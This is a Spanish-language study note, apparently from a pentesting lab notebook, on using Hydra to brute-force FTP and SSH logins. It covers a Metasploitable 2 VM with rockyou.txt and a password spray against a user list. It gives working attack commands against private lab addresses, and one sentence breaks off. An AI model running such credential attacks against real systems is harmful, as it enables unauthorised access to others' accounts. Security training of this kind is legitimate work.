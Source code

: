 Hydra es conocida por su capacidad para realizar ataques de fuerza bruta contra una variedad de servicios, como SSH, HTTP, FTP, entre otros.

Comandos:
-   -f: termina la ejecución del comando si encuentra una posible clave valida.
- -l: Especifica un nombre de usuario para usar durante el ataque de fuerza bruta.
- -L: Especifica una lista de nombres de usuario para usar durante el ataque de fuerza bruta.
- -p: Especifica una contraseña para usar durante el ataque de fuerza bruta.
- -P: Especifica una lista de contraseñas para usar durante el ataque de fuerza bruta.
- -R: Restaura la versión anterior
- -s: Puerto específico
- -t: Selecciona el número de tareas a ejecutar
- -v: Este parámetro sirve para ver detalles en la salida de comando.
- -w: Especifica una lista de palabras para usar durante el ataque de fuerza bruta.
- -I: omite la espera inicial de 10 segundos y ver si hay algún mensaje de error o si el proceso se detiene en algún punto.

Las mayusculas y minusculas con l para el usuario y p para la contraseña se utiliza en minuscula cuando la sabemos y en minuscula cuando no

hydra 192.168.1.1 ftp -l msfadmin 
hydra -l admin -P rockyou.txt 192.168.1.1

# Tutorial Hydra
Primero accedemos al direcctorio donde estan los diccionarios
![[Pasted image 20240205125429.png]]

Como podremos ver en la siguiente imagen hydra viene con un diccionario muy amplio, en nuestro caso esta comprimido
![[Pasted image 20240205125307.png]]

Lo descomprimimos
![[Pasted image 20240205125357.png]]
Una vez descomprimido ejecutaremos el comando para que busque la pasword de un usuario de la maquina metasploitable 2

Como podemos ver una vez utilizado hydra y descubierto la contraseña, unicamente nos queda probarlo, nos conectamos por FTP a la maquina victima con las credenciales anteriormente descubiertas y ya acced
hydra 192.168.60.3 ftp -l msfadmin -P rockyou.txt -s 21
![[Pasted image 20240205141150.png]]


# Utilizar hydra protocolo SSH
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.50
![[Pasted image 20240226084922.png]]


# Password spray con Hydra
Podemos probar un ataque de rociado de contraseñas contra varios usuarios a ver si obtenemos unas credenciales y tenemos exito
```
hydra -L users.txt -p 'Th1s_1s_4_v3ry_s3cur3_p4ssw0rd' ssh://10.10.162.52
```
![[Pasted image 20240805090135.png]]